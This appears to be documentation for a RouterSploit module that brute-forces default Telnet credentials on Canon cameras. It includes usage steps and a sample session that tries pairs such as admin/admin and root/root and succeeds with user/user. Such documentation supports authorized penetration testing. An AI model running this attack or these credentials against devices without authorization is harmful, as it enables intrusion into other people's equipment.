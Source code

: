 ## Description

Module performs dictionary attack with default credentials against Canon Camera Telnet service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/canon/telnet_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/canon/telnet_default_creds
rsf (Canon Camera Default Telnet Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Canon Camera Default Telnet Creds) > run
[*] Running module...
[*] Target exposes Telnet service
[*] Starting default credentials attack against Telnet service
[*] thread-0 thread is starting...
[-] Telnet Authentication Failed - Username: 'admin' Password: 'admin'
[-] Telnet Authentication Failed - Username: '1234' Password: '1234'
[-] Telnet Authentication Failed - Username: 'root' Password: '12345'
[-] Telnet Authentication Failed - Username: 'root' Password: 'root'
[+] Telnet Authentication Successful - Username: 'user' Password: 'user'
[*] thread-0 thread is terminated.
[*] Elapsed time: 5.389287948608398 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     23       telnet      user         user

```
